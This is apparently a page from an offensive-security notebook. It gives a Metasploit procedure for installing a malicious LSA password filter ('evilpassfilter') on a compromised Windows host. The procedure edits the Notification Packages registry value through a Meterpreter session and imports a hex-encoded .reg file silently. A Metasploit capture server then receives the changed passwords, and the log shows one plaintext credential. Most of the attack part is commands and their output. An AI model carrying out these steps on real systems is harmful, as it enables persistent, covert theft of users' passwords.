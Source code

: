 # Metasploit

## Modify The Registry Entry

Query the notification packages list.

```
meterpreter > reg queryval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa -v "Notification Packages"
Key: HKLM\System\CurrentcontrolSet\Control\Lsa
Name: Notification Packages
Type:
Data: sceclirassfm
```

 What you can't see here since Metasploit isn't showing the line breaks is that there are two there by default.

```
scecli
rassfm
```

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa]
"Notification Packages"=hex(7):73,00,63,00,65,00,63,00,69,00,72,00,6e,00,\
  00,00,72,00,61,00,73,00,73,00,66,00,6d,00,72,00,6e,00,00,00,65,00,76,00,69,\
  00,6c,00,70,00,61,00,73,00,73,00,66,00,69,00,6c,00,74,00,65,00,72,00,00,00,\
  00,00
```

Upload the registry file then import it.

```
meterpreter > upload grab_credentials.reg .
[*] uploading  : grab_credentials.reg -> .
[*] uploaded   : grab_credentials.reg -> .\grab_credentials.reg
meterpreter > execute -Hf regedit.exe -a "/s grab_credentials.reg"
Process 2628 created.
```

```
meterpreter > reg queryval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa -v "Notification Packages"
Key: HKLM\System\CurrentcontrolSet\Control\Lsa
Name: Notification Packages
Type:
Data: sceclirnrassfmrnevilpassfilter
```

## Retrieve Credentials

### Web Server

```
msf > use auxiliary/server/capture/http_basic

msf auxiliary(http_basic) > set URIPATH /
URIPATH => /
msf auxiliary(http_basic) > run -j
[*] Auxiliary module execution completed
[*] Listening on 0.0.0.0:80...
[*] Using URL: http://0.0.0.0:80/
[*]  Local IP: http://192.168.92.106:80/
[*] Server started.
msf auxiliary(http_basic) > 
```

 Then we wait for a password to be changed.

```
msf auxiliary(http_basic) > 
[*] 192.168.92.106   http_basic - Sending 401 to client
[+] 192.168.92.106 - Credential collected: "jack:ASDqwe123" => /
```

### SMB Share

TODO: Do a step by step (refer to the backlink to file transfer)

---
## References

### Backlinks

- [[Password Change Notification|Malware Development: Password Change Notification]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Windows/Network Ports/SMB|File Transfer and Data Exfiltration: Windows SMB]]